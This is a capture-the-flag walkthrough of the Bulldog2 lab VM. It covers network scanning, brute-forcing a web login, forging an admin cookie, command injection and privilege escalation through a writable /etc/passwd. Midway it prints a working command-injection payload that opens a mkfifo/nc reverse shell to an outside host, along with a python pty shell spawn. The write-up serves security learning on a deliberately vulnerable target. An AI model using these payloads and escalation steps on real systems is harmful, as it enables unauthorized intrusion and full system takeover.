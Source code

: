 

### **Netdiscover**

![netdiscover](images/bulldog2/netdiscover.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.105 is our target virtualbox host ip.

------

### **Namp**

![nmap](images/bulldog2/nmap.png)

We found some services  <u>HTTP</u>

------

### Solution

![index](images/bulldog2/index.png)

We linked to this http://192.168.0.105/, found that register button is nothing uses. we only login to use.

So We found some interesting.

![users](images/bulldog2/users.png)



![info](images/bulldog2/info.png)

Because so many users, we decide choos one of them to test, so we use burp suite intrude to brute force.

![intrude](images/bulldog2/intrude.png)

We found this password for **ipadolpho** is **123456789**, So let's login.

![login](images/bulldog2/login.png)





![user](images/bulldog2/user.png)

Logan successfully!!! but we had nothing found in this pages, we saw wether this cookie/storge is what.

![cookie0](images/bulldog2/cookie0.png)

This is a key hint: auth_level : standard_user, may exists admin, So we inspect from man.js.

![main_js](images/bulldog2/main_js.png)

So we change standard_user to master_admin_user for us to be admin.

![cookie](images/bulldog2/cookie.png)

So we got admin successfully!!!

![user_admin](images/bulldog2/user_admin.png)

![cli](images/bulldog2/cli.png)

We could infer that we should user command line inject from "cli tools"![command_inject](images/bulldog2/command_inject.png)

We choose $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.106 2333 >/tmp/f) at end, i tried bash and nc to reverse shell failed, so we tried mkfifo to reverse shell, Luckily, we did it.



![shell](images/bulldog2/shell.png)

Now we use find to enum that could own the suid file.

![find](images/bulldog2/find.png)

Nothing found. but we found /etc/passwd anyone can edit it, so we add a root user to it.

![passwd](images/bulldog2/passwd.png)

![su_hack1](images/bulldog2/su_hack1.png)

Found that we nedds a terminal, so we use python code

`python -c "import pty;pty.spawn('/bin/sh')"` 

![hacker1](images/bulldog2/hacker1.png)

Found his passwd is in /etc/shadow, So we use perl generate /etc/passwd password.

![generate](images/bulldog2/generate.png)

![write](images/bulldog2/write.png)

We login in root user successfully!!!

![root](images/bulldog2/root.png)

We can cd /root, the flag in it.

![flag](images/bulldog2/flag.png)

------

**That' all , Thanks for your watching**